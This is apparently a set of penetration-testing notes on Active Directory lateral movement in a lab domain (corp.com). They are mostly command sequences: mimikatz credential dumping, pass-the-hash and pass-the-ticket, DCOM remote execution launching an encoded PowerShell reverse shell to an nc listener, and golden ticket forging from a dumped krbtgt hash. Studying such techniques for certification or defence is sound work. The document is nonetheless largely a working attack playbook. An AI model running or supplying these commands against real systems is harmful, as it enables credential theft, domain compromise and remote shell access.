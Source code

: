 ```
mimikatz
privilege::debug
sekurlsa::logonpasswords    # NTLM : 369def79d8372408bf6e93364cc93075 and username Jen
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
klist        # if its 0 thats fine
net use \\files04
klist
.\PsExec.exe \\files04 cmd
```
### Pass the Ticket
Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. 
```
ls \\web04\backup                # '\\web04\backup' is denied.

Mimikatz
privilege::debug
sekurlsa::tickets /export
dir *.kirbi                             # -a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
klist
ls \\web04\backup
```

### DCOM
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
tasklist | findstr "calc"
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")

$ kali: nc -lnvp 443
whoami
hostname
```
### Golden ticket 
```
PsExec64.exe \\DC1 cmd.exe

Mimikatz
privilege::debug
lsadump::lsa /patch                             # User : krbtgt  NTLM : 1693c6cefafffc7af11ef34d1c788f47
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
PsExec.exe \\dc1 cmd.exe
whoami /groups                    # will be in Admin Group

#time check 
check for clock-skew through nmap 
```
